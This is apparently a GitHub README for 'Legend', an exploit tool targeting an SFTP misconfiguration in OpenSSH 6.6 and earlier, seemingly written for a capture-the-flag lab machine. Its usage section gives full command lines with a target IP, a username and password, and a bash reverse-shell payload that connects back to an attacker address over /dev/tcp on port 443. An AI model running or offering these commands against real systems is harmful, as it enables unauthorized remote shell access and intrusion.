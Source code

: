 # Legend
OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit



## Dependencies
pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage
```sh
./legend.py -r 10.10.10.66 -p 2222 -u ftpuser -P "@whereyougo?" -c "/bin/bash -pi >& /dev/tcp/10.10.15.59/443 0>&1"
```

```sh
./legend.py -r 10.10.10.66 -p 2222 -u ftpuser -P "@whereyougo?" -b "10.10.14.197 443"
```
